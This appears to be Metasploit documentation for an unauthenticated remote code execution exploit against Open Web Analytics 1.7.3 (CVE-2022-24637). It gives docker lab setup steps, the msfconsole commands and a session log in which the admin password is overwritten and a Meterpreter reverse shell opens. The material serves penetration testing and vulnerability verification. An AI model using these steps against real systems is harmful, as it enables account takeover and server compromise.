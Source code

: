 ## Vulnerable Application

Open Web Analytics (OWA) before 1.7.4 allows an unauthenticated
remote attacker to obtain sensitive user information, which can be
used to gain admin privileges by leveraging cache hashes. This occurs
because files generated with '<?php (instead of the intended "<?php sequence) aren't
handled by the PHP interpreter.

## Verification Steps

1. Start a vulnerable instance of OWA using docker
    - Download https://github.com/Pflegusch/CVE-2022-24637/blob/main/deployment/docker-compose.yml
    - Start the containers: `docker compose up -d`
    - Open http://127.0.0.1:80/
    - Follow installation steps using the envs from the `docker-compose.yml` file
        - Public URL: `http://127.0.0.1/`
        - Database Host (`docker inspect <db-container>` and get `IPAddress`, e.g `172.22.0.2`)
        - Database Port: `3306`
        - Database Name: `owa`
        - Database User: `owa`
        - Database Password: `Demo12+#`
        - Continue
        - Site Domain: `http://127.0.0.1`
        - Admin name: `admin`
        - E-Mail: `admin@admin.com`
        - Password: `Demo12+#`
        - Continue

2. Start `msfconsole`
3. `use exploit/multi/http/open_web_analytics_rce`
4. `set RHOSTS 127.0.0.1`
5. `set RPORT 80`
6. `set SSL false`
7. `set LHOST 172.22.0.1` -> this needs to be bridge IP that got created with the `docker compose up -d` command
8. `check`
9. `run`

## Options
### Password

When exploiting the target, the password of the attacked user will be overwritten with this password.

### Username

The user that will be targeted with this exploit.

## Advanced Options
### SearchLimit

The exploit works by retrieving a `temp_passkey` value from a cache file that gets created for each user when trying to login with it.
Since the `/owa-data/caches/` directory is publicly accessible, we can retrieve these cache files. The exact path for the cache files
depends on the `user_id` and can get calculated with that. This option defines how many calculated paths, starting from 0, should be
checked for cache files with the `temp_passkey` value in it.

## Scenarios
### Version 1.7.3 using docker deployment from above
```
msf6 exploit(multi/http/open_web_analytics_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > set LHOST 172.22.0.1
LHOST => 172.22.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > run

[*] Started reverse TCP handler on 172.22.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Open Web Analytics 1.7.3 is vulnerable
[+] Connected to http://127.0.0.1/ successfully!
[*] Attempting to find cache of 'admin' user
[+] Found temporary password for user 'admin': 85038e7e9f541ae4c4939d3044e628a5
[+] Changed the password of 'admin' to 'pwned'
[+] Logged in as admin user
[*] Creating log file
[+] Wrote payload to file
[*] Sending stage (39927 bytes) to 172.22.0.3
[+] Deleted QY0yivK4.php
[*] Meterpreter session 1 opened (172.22.0.1:4444 -> 172.22.0.3:55434) at 2023-03-15 01:28:54 +0100
[+] Triggering payload! Check your listener!

meterpreter > pwd
/var/www/html/owa-data/caches
meterpreter > getuid
Server username: www-data
meterpreter >
```
